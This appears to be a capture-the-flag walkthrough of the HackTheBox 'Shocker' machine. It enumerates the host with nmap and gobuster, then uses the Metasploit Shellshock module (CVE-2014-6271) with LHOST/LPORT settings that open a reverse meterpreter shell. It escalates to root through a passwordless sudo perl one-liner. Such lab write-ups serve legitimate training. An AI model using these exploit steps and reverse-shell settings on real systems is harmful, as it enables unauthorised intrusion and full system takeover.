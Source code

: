 ```yaml
---
cover: ../../../.gitbook/assets/Shocker.png
coverY: 263.1893333333333
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Shocker

## Information

* Add a virtual host.

```bash
echo '10.10.10.56 shocker.htb' | sudo tee -a /etc/hosts
```

* Scan all ports & all services.

```bash
nmap -p- -T4 shocker.htb -o nmap-ports
nmap -p 80,2222 -sV -O shocker.htb -o nmap-services
```

* Enumerate the web server

```bash
gobuster dir -u http://shocker.htb/ -w /usr/share/wordlists/dirb/common.txt -o gobuster-common
```

* You find the folder `/cgi-bin/` try to find a file inside of it.

```bash
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x pl,cgi,sh -o gobuster-cgi-files
```

## Exploitation

* The CGI service is vulnerable to CVE-2014-6271

```
msf6> use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf6> set RHOSTS shocker.htb
msf6> set TARGETURI /cgi-bin/
msf6> set LHOST tun0
msf6> set LPORT 1234
msf6> run
```

* You gain meterpreter access with **shelly**.

## PrivEsc

* Enumerate the sudo permissions of shelly.

```bash
shelly@target> cat /home/shelly/user.txt
shelly@target> sudo -l
```

* The binary `/usr/bin/perl` can be executed as root with no password.

```
shelly@target> sudo /usr/bin/perl -e "system('bash')"
```

And you gain the **root** access !
